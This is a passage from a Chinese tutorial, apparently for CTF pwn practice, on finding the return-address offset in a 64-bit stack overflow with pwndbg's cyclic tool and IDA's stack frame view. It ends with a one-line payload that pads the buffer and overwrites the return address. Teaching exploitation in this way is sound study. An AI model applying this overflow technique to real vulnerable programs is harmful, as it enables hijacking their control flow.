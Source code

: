 > cyclic -l 0x???????? ，cyclic -l只能接受类似于0x????????的地址
>

由于这个程序是小端序，内存0x6161686161616761等价于在地址中写入内容时先写入61616761，再写入61616861。因此只用计算61616761（aaga）之前有多少字符即可。

也可以使用此时的rsp来测量栈偏移：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608794202815-0ac1d1d2-4bc0-4d58-81c4-ee16d7a4f425.png)

此时rsp所指向的内存：

```python
pwndbg> x/16gx 0x7fffffffde28
0x7fffffffde28:	0x6161686161616761	0x61616a6161616961
    			#也是retn的内容
0x7fffffffde38:	0x61616c6161616b61	0x61616e6161616d61
0x7fffffffde48:	0x6161706161616f61	0x6161726161617161
0x7fffffffde58:	0x6161746161617361	0x6161766161617561
0x7fffffffde68:	0x6161786161617761	0x61617a6161617961
0x7fffffffde78:	0x6161636261616262	0x6161656261616462
0x7fffffffde88:	0x6161676261616662	0x6161696261616862
0x7fffffffde98:	0x61616b6261616a62	0x61616d6261616c62
pwndbg> 
```

```python
pwndbg> cyclic -l 0x61616761
23
pwndbg> 
```

两种方法没有本质差别，都是使用同一内存中的内容。

## IDA-stack of function窗口
不仔细说了，和32位基本相同：

```python
-0000000000000010 ; D/A/*   : change type (data/ascii/array)
-0000000000000010 ; N       : rename
-0000000000000010 ; U       : undefine
-0000000000000010 ; Use data definition commands to create local variables and function arguments.
-0000000000000010 ; Two special fields " r" and " s" represent return address and saved registers.
-0000000000000010 ; Frame size: 10; Saved regs: 8; Purge: 0
-0000000000000010 ;
-0000000000000010
-0000000000000010                 db ? ; undefined
-000000000000000F s               db ?
......
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

```python
payload=(0xF+0x8)*'a'+p64(retn_addr)
```

